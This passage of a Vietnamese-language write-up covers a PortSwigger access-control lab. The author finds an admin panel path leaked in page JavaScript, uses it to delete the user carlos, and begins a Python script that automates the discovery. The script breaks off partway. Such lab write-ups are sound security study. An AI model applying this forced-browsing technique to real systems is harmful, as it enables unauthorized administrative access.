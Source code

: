 ![image](https://hackmd.io/_uploads/B1x508jFa.png)

mục đích của chúng ta là xóa carlos đã hoàn thành và mình cũng giải quyết được bài lab này

## 2. Lab: Unprotected admin functionality with unpredictable URL

link: https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url

### Đề bài

![image](https://hackmd.io/_uploads/BJ4WbPsYp.png)

### Phân tích

<li>như đã đề cập ở trên bài này không để lộ filr ```robots.txt``` nhưng đã để lộ đường dẫn trong file javascript.</li>

### Khai thác

<li> Xem mã nguồn trang web bằng cách bấm tổ hợp phím Ctrl+U hoặc chuột phải và bấm chọn View page source:</li>

```javascript
var isAdmin = false;
if (isAdmin) {
  var topLinksTag = document.getElementsByClassName("top-links")[0];
  var adminPanelTag = document.createElement("a");
  adminPanelTag.setAttribute("href", "/admin-9dy4r0");
  adminPanelTag.innerText = "Admin panel";
  topLinksTag.append(adminPanelTag);
  var pTag = document.createElement("p");
  pTag.innerText = "|";
  topLinksTag.appendChild(pTag);
}
```

Phát hiện đoạn code Javascript hoạt động để lộ đường dẫn tới trang quản trị là `/admin-9dy4r0`.

![image](https://hackmd.io/_uploads/SyALzDjKa.png)

và mình vào xóa người dùng carlos

![image](https://hackmd.io/_uploads/H1MjEDjFa.png)

mình cũng đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0af10083037c3ee5834ad389000c008b.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/my-account',
    verify=False,
)

pattern = r"/admin-\w{6}\b"
```